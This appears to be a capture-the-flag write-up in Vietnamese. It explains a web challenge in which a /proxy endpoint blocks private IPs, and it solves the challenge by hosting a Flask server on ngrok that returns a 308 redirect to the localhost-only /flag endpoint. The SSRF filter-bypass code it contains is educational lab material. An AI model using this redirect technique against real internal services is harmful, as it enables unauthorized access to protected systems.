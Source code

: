 ```js
    } catch (err) {
        res.status(400).type("text/plain").send("got error: " + err.message);
    }
});

// make flag accessible for local debugging purposes only
// also the nginx is at a private ip that isn't 127.0.0.1
// it's not that easy to get the flag :D
app.post("/flag", (req, res) => {
    if (!["127.0.0.1", "::ffff:127.0.0.1"].includes(req.socket.remoteAddress)) {
        res.status(400).type("text/plain").send("You don't get the flag!");
    } else {
        res.type("text/plain").send(flag);
    }
});

app.listen(port, () => {
    console.log(`Server listening on port ${port}`);
});

```

Ta có 2 endpoint:
* `/proxy` (method: POST): ta có thể POST một URL lên. Nếu URL được gửi lên không phải là IPv4 thì được resolve thành IPv4. Nếu IPv4 đó là private IP thì sẽ bị chặn. Ngược lại, server sẽ POST tới IPv4 đó rồi trả response lại.
* `/flag` (method: POST): đây là endpoint trả về flag nếu `req.socket.remoteAddress` là `127.0.0.1` hoặc `::ffff:127.0.0.1`.

Mình có ý tưởng là sẽ host một server bằng [ngrok](https://ngrok.com/) rồi sau đó sẽ redirect về `http://127.0.0.1/flag`.
- Host bằng ngrok thì khi resolve thành IPv4 sẽ thành một public IP.
- Vì là redirect nên IP không bị ảnh hưởng, vẫn là IP public của server.

Server của mình như sau:
```py
from flask import Flask, redirect
import requests
  
app = Flask(__name__)
  
@app.route('/', methods=["POST"])
def hello_world():
    return redirect("http://127.0.0.1:8080/flag", 308) # redirect reuse method

if __name__ == '__main__':
    app.run()
```

Ta cần gửi POST request tới `/flag`, nếu sử dụng `redirect("http://127.0.0.1:8080/flag")` thì sẽ là method GET, còn nếu truyền thêm status code 308 hoặc 307 thì sẽ giữ nguyên được method.
